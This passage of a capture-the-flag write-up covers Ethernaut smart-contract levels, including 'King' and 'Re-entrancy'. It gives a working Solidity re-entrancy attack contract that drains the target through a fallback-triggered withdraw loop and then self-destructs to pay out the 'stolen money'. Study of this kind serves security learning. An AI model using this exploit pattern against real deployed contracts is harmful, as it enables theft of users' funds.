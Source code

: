 Create this contract with the target contract address as a parameter, then, call `pwn()` with some ether. Our contract will has `suicide` state and send all ether to the target contract.

<h3>6. King</h3>
To win this challenge, you are required to be the king. 

```javascript
> level
"0x32....."
> await contract.king()
"0x32....."
> let prize = await contract.prize()
> fromWei(prize.toNumber())
"1"
```
From the information above, the king is the current level contract with the prize of 1 ether.
Considering a condition in the fallback function.
{% highlight code%}
require(msg.value >= prize || msg.sender == owner);
{% endhighlight %}

Because we are not the owner, so the second solution will be `false`.
Nevermind, there is the first condition for us since it is an OR operation.
The solution is to send ether more than the prize to become the king. In this case, sending 
more than 1 ether.

```javascript
await contract.sendTransaction({value:toWei(1.01)})
```

And now you are the king.

(According to the challenge description, after we submit the instance, the current level contract
shoud reclaims my throne, but nothing else happens)

<h3>7. Re-entrancy</h3>
Only one goal here, steals all funds of the target contract. 

Thanks to the challenge name, I search for what `Re-entrancy` means.
I found this [blog][reentrancy-blog] which has a well explaination on what it is and how the attack works. [The Dao got hacked][reentrancy-thedao] with this vulnerability last year.
The vulnerable part is that the contract send ether to sender before 
reducing the sender balance in the system. 

We will use the fallback function to complete our attack.
Here is my smart contract to attack the target smart contract.
{% highlight code%}
pragma solidity ^0.4.18;

import './Reentrance.sol';

contract ReentrancyPwn{
    Reentrance public reentrance;
        
    // Constructor
    function ReentrancyPwn(address victim_address){
        reentrance = Reentrance(victim_address);
    }
    
    // For sending the stolen money to my self :)
    function kill(){
        selfdestruct(msg.sender);
    }
    
    function() payable {
        reentrance.withdraw(0.5 ether);  
    }
}
{% endhighlight %}


[ethernaut-ctf]: https://ethernaut.zeppelin.solutions
[eternaut]: https://en.wikipedia.org/wiki/The_Eternaut
[metamask]: https://metamask.io
[remix]: https://remix.ethereum.org
[doc]: http://solidity.readthedocs.io/en/develop/contracts.html
[etherscan]: https://ropsten.etherscan.io
[delegation-parity]: https://blog.zeppelin.solutions/on-the-parity-wallet-multisig-hack-405a8c12e8f7
[reentrancy-blog]: https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4
[reentrancy-thedao]: http://hackingdistributed.com/2016/07/13/reentrancy-woes/
[img-intro]: {{ site.baseurl }}/assets/img/posts/ethernautctf/intro.PNG 
[img-data-sent]: {{ site.baseurl }}/assets/img/posts/ethernautctf/data-sent.PNG 
[img-how-reentrnacy-work]: {{ site.baseurl }}/assets/img/posts/ethernautctf/how-reentrancy-work.PNG 